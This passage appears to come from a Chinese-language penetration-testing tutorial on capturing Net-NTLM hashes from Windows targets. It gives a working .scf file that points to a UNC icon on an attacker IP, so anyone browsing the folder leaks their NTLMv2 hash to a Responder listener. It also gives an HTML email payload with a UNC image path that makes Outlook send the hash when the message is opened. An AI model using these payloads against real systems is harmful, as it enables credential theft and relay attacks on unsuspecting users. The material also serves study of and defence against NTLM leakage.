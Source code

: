 创建一个test文件夹，在该文件夹内创建test.scf文件，文件内容如下：



```
[Shell]      
Command=2      
IconFile=\\192.168.106.5\test\test.ico      
[Taskbar]      
Command=ToggleDesktop
```




![](https://img-blog.csdnimg.cn/img_convert/422faaabb4c852b442973c1206683c55.png)



只要有人访问了test文件夹，目标主机就会去请求指定UNC的图标资源，于是该主机会将当前用户的NTLM v2 hash发送给指定的机器，我们在该机器上使用Responder监听，就能接收到目标机器发来的Net-NTLM Hash了。



![](https://img-blog.csdnimg.cn/img_convert/2cbf90e0713af76bc7290de1b6e65927.png)



### Outlook



邮件是支持发送HTML格式邮件的。于是我们可以发送带有如下html payload的邮件：



```
<p>邮件发送测试...</p>      
<img src="\\\\192.168.106.5\\test">
```




![](https://img-blog.csdnimg.cn/img_convert/19a40a3e7eb1f7bb224818da8dd66453.png)



当目标使用的是Windows机器，并且使用的是Outlook客户端打开该邮件的话，我们就能收到目标机器的Net-NTLM Hash。



![](https://img-blog.csdnimg.cn/img_convert/dab34e8b6350db0edaed6d81241a7f82.png)



![](https://img-blog.csdnimg.cn/img_convert/07452ba6c3a2258accd852fa2c7518e4.png)



### 系统命令



通过执行系统命令，访问指定的UNC路径，来获取目标机器的Net-NTLM Hash。
